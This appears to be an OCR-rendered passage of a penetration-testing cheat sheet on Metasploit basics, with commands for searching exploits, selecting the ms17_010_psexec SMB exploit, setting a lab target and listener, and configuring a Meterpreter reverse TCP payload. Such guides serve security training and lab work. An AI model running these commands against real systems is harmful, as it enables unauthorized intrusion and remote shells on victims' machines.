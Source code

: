 ``````shell-session
| **GitHub** | Code repositories | Search/API |

## Metasploit Framework

### Basic Usage

#### Starting Metasploit
```bash
# Initialize database (first time)
msfdb init

# Start console
msfconsole

# Update modules
msfupdate
```

#### Exploit Search and Selection
```bash
# Search for exploits
msf6 > search exploit eternalblue
msf6 > search type:exploit platform:windows smb

# Search with filters
msf6 > search cve:2017 rank:excellent platform:linux

# Use specific exploit
msf6 > use exploit/windows/smb/ms17_010_psexec

# Show exploit information
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > show options
msf6 exploit(windows/smb/ms17_010_psexec) > show targets
```

### Configuration and Execution

#### Setting Options
```bash
# Set required options
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0

# Show current options
msf6 exploit(windows/smb/ms17_010_psexec) > show options

# Advanced options
msf6 exploit(windows/smb/ms17_010_psexec) > show advanced
msf6 exploit(windows/smb/ms17_010_psexec) > set VERBOSE true
```

#### Payload Configuration
```bash
# Show available payloads
msf6 exploit(windows/smb/ms17_010_psexec) > show payloads

# Set specific payload
msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/meterpreter/reverse_tcp

# Configure payload options
msf6 exploit(windows/smb/ms17_010_psexec) > show payload options
```

``````